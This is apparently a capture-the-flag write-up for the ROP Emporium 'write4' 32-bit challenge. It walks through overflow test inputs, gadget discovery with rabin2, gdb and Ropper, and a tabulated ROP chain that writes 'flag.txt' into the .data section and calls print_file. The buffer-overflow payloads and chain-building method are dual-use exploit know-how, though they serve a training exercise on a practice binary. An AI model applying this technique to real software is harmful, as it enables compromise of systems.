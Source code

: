 # write4
The challenge is available [here](https://ropemporium.com/challenge/write4.html).

## Black-Box Test
Like in all the challenges so far, we will also conduct a test now to discover the behavior of the software. Afterwards, we will find that the return address index is the same as in the previous challenges.

```
./write432
```
![](./0.png)
```
perl -e 'print "X"x44 . "\xef\xbe\xad\xde"' | ./write432
```
![](./1.png)
```
sudo dmesg -k | tail -2
```
![](./2.png)

## In-depth research
I assume that anyone reading this solution has already read the instructions for the challenge. We will find the address of the `print_file` function in the next command.

```
rabin2 -i write432
```
![](./3.png)

Additionally, we will also find the address of the regular helper function.

```
rabin2 -qs write432 | grep -ve 'imp' -e ' 0 ' -e '_'
```
![](./4.png)

Our goal is to make the call `print_file("flag.txt")`. Is the string "flag.txt" present in the binary? The instructions state that it is not. Let's verify this.

```
rabin2 -z write432
```
![](./5.png)

Indeed, there are no helpful strings. Let's take a look at the `usefulFunction`.

```
gdb write432
```
```
set disassembly-flavor intel
```
```
disas usefulFunction
```
![](./6.png)

To summarize, the `usefulFunction` calls `print_file` with one parameter on the stack. This parameter is the address of the string `"nonexistent"` from the previous image (you can also print it out to confirm). Therefore, `usefulFunction` executes `print_file("nonexistent")`.

To verify this in the best way possible, let's call `usefulFunction`. So let's exit the debugger (with the command `q`) and run the next command.

```
perl -e 'print "X"x44 . "\x2a\x85\x04\x08"' | ./write432
```
![](./7.png)

Okay, let's try again after creating a file named `nonexistent`.

```
echo ABCD > nonexistent
```
```
perl -e 'print "X"x44 . "\x2a\x85\x04\x08"' | ./write432
```
![](./8.png)

Indeed, the file was printed. Now, let's focus on the main issue of the current challenge, which is the absence of the string "flag.txt". To address this, we need to push parts of the string onto the stack and place it somewhere in memory.

This means we need to look for three things:
* a writable memory location
* a gadget that reads bytes from the stack to a register
* and a gadget that writes from a register to memory.

We'll start by searching for a writable memory location.

```
readelf -S write432
```
![](./9.png)

So, the `.data` section looks like a good candidate. It's writable, and its size is 8 bytes, which is just enough for our needs.

After some research and searching, I've also found two gadgets that are perfectly suited for our purpose.

```
python3 ~/ropper/Ropper.py
```
```
file write432
```
```
search pop
```
```
search /1/ mov [%], %
```
![](./10.png)

The combination of these two gadgets is simply perfect. The `edi` register will be used for the writable memory address, as derived from the `mov-gadget`. So, the `ebp` register will hold parts of the string "flag.txt". According to the `pop-gadget`, we learn that in the ROP chain, we will first write the address, followed by the relevant part of the string.

Now we have all the information we need.

## Solution
In the following table, the important addresses for constructing the ROP chain are summarized, along with a brief description of each.

| Name          | Type            | Address    | Description                                                       |
|---------------|-----------------|------------|-------------------------------------------------------------------|
| print_file    | Func            | 0x080483d0 | The entry address in the PLT table.                               |
| memory4string | Writable Memory | 0x0804a018 | .data segment addr will be where the string "flag.txt" is placed. |
| pop2registers | Gadget          | 0x080485aa | pop edi; pop ebp; ret;                                            |
| mov2memory    | Gadget          | 0x08048543 | mov dword ptr [edi], ebp; ret;                                    |

And the table describes the ROP chain itself:

| No | Chain Link                             |
|----|----------------------------------------|
| 1  | 44 garbage bytes                       |
| 2  | pop2registers, memory4string, "flag"   |
| 3  | mov2memory                             |
| 4  | pop2registers, memory4string+4, ".txt" |
| 5  | mov2memory                             |
| 6  | print_file, "XXXX", memory4string      |

